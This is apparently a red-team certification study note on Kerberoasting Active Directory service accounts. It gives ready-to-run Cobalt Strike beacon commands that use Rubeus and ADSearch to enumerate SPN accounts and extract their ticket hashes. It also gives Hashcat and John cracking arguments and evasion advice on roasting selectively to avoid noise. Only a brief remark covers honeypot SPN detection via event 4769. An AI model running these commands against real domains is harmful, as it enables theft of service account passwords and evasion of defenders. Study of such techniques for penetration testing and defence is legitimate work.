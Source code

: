 
Kerberoasting is a technique for requesting [[Ticket Granting Service (TGS)]] for services running under the context of domain accounts and cracking them offline to reveal their plaintext passwords.

Rubeus `kerberoast` can be used to perform the kerberoasting.  Running it without further arguments will roast every account in the domain that has a [[Service Principal Name (SPN)]] (excluding krbtgt).

## 🖊️ via Cobalt Strike

1) Kerberoast every account (not OPSEC)
   
   `beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap`

2) These hashes can be cracked offline to recover the plaintext passwords for the accounts.  Use `--format=krb5tgs --wordlist=wordlist hashes` for  [[JohnTheRipper]] or `-a 0 -m 13100 hashes wordlist` for [[Hashcat]] .

⚠  There is some hash format incompatibility with john.  Removing the SPN so it became: `$krb5tgs$23$*mssql_svc$dev.cyberbotic.io*$6A9E[blah]` seemed to address the issue.

3) Roasting every account is very noisy and not OPSEC, a much safer approach is to enumerate possible candidates first and roast them selectively.  This LDAP query will find domain users who have an SPN set.

`beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName`

4) Once you pick a user, roast them individually

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap`




### ⚠ Opsec

By default, Rubeus will roast every account that has an SPN.  Honey Pot accounts can be configured with a "fake" SPN, which will generate a 4769 event when roasted.  Since these events will never be generated for this service, it provides a high-fidelity indication of this attack.


### Properties
---
📆 created   {{18-02-2024}} 15:15
🏷️ tags: #redteam #crto 

---

